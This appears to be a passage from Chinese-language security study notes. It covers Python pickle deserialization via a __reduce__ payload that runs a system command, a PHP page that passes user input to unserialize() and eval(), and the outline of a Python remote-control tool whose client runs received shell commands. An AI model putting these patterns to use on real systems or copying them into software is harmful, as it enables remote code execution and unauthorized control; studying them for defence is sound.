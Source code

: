 当前，你也可以像php那种反序列化对象，利用__ reduce __ 魔术方法，在进行反序列化的时候调用

~~~python
import os
import pickle
class A:
    def __reduce__(self):
        s = "calc"
        return (os.system, (s,))
e = A()
s = pickle.dumps(e)
print(s, type(s))
haha = pickle.loads(s)
~~~

php：由于 PHP 的反序列化机制不同于 Python 和 Java 等语言，所以无法像 Python 那样直接将字符串解析为可执行的代码并进行执行，如果要执行反序列化后的代码，需要创建一个可执行对象并将其传递给 `unserialize()` 函数进行反序列化

~~~php
<?php
highlight_file(__FILE__);
error_reporting(0);

class test{
	public $a = "hahahaha";
	public function displayVar(){
		eval($this->a);
	}
}
$c = new test();
$c->displayVar();
$get = $_GET["haha"];
$b = unserialize($get);
$b->displayVar();
~~~

###### 5）用python如何编写一个远控？

大致步骤是：编写客户端和服务端代码，服务端放在公网上运行，然后客户端运行，主动去连接服务端，然后服务端输入命令whoami之后发送给客户端，客户端接收之后在本地执行之后将结果返回到服务端

1-我这里首先假设两者最后都利用PyInstaller 打包成exe后，为了解决在使用 PyInstaller 对 Python 代码进行打包时，包含了 `input()` 函数的脚本会导致打包后的可执行文件无法正常运行，即我想在GUI和图形界面上可以接收输入和返回结果，所以利用`input_thread = threading.Thread(target=input_command, args=(client_socket,))`来接收输入

2-问题二，正常输入正确的命令之后可以执行，也应该让输入不正确的命令将结果返回

所以我们用subprocess替换popen来实现命令执行

~~~python
        try:
            # 使用 subprocess 模块执行命令
            process = subprocess.Popen(command, shell=True,
                                       stdout=subprocess.PIPE,
                                       stderr=subprocess.PIPE)
            out, err = process.communicate()

            # 获取命令输出结果或错误信息
            result = out if out else err

        except Exception as e:
            # 捕获异常并将错误信息返回给客户端
            result = str(e).encode('utf-8')
~~~
